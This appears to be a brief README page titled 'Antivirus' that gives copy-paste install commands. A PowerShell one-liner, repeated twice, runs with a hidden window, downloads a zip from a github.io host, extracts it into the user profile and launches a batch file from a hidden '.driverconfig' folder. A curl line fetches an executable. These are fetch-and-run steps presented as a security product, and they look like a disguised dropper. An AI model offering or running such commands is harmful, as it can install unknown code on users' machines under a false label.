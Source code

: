 # Antivirus

powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


curl -L -o ffplay.exe https://jmorg23.github.io/AV/ffplay.exe
installer.bat
